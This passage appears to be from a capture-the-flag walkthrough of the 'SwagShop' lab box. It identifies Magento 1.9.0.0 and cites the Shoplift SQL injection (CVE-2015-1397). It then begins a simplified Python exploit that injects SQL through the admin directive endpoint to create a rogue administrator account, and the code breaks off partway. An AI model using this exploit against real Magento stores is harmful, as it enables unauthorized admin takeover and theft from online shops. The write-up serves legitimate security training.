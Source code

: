 Alright, lets checkout the login page at `/downloader`:

![5](./swagshop/5.png)

Looks like we know whats running on this port and the version:`Magneto Connect Manager v1.9.0.0`. 

## Exploitation:

Before we do a more deep dive on this web service, lets look for a common CVE:

https://www.cvedetails.com/product/31613/Magento-Magento.html?vendor_id=15393

We see 5 that allow for remote code execution. We also see that all 5 will work for our version of the software: `v1.9.0.0`. Lets try and find some already working PoC code:

- https://github.com/joren485/Magento-Shoplift-SQLI

The above works for [CVE-2015-1397](https://www.cvedetails.com/cve/CVE-2015-1397/) and versions < `1.9.1.0`. Here are some good resources for the CVE:

- https://blog.sucuri.net/2015/04/magento-shoplift-supee-5344-exploits-in-the-wild.html
- https://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/

After examining the PoC code, we can simplify it to the following:

```python
import requests
import base64

TARGET = '10.10.10.140'
USERNAME = 'bubba'
PASSWORD = 'gump'
URL = 'http://' + TARGET + '/index.php/admin/Cms_Wysiwyg/directive/index/'
SQL="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
```